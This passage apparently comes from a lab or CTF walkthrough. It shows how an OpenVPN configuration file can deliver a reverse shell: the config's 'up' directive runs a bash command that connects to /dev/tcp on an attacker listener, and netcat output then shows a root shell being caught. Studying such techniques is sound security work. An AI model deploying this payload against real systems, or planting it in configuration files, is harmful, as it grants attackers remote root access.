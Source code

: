 <figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

By setting up a listener on the victim, and then exploiting the VPN configuration, we are able to catch a reverse shell. [https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da)

VPN configuration:

```
remote 192.168.122.1
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
nobind
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/4242 0<&1 2>&1&'"
```

Reverse shell:

```
dave@ubuntu:~/Desktop$ nc -nvlp 4242
Listening on [0.0.0.0] (family 0, port 4242)
Connection from [192.168.122.4] port 4242 [tcp/*] accepted (family 2, sport 45186)
bash: cannot set terminal process group (1106): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html#
```
